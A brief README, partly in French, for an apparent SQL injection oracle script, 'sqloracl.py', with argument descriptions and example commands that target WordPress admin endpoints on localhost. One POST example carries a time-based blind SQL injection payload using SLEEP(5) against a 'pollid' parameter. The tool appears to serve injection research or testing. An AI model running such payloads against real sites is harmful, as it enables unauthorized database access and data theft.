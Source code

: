# oracleSQL
pour PFGimenez/poirot
## Utilisation
retourne 0 si la chaine de caractère est syntaxiquement valide, 1 sinon<br>

**`url`**`string` url of the target<br>
**`payload`**`dict` default params (GET) or payload (POST)  			`❗ value and key between SIMPLE quotes` <br>
**`vulnparam`**`string` name of param on which we add injtxt<br>
**`injtxt`**`string` injection text 									`❗ between DOUBLE quotes`<br>
#### GET
```
python sqloracl.py <url> GET <payload> <vulnparam> <injtxt>
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/wp-admin/admin.php GET "{'action':'dt_duplicate_post_as_draft','post':''}" post ""
```
#### POST
```
python sqloracl.py <url> POST <payload> <vulnparam> <injtxt>
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/admin-ajax.php POST "{'action':'spAjaxResults','pollid':'2'}" pollid " AND (SELECT 1158 FROM (SELECT(SLEEP(5)))eipW)"
```
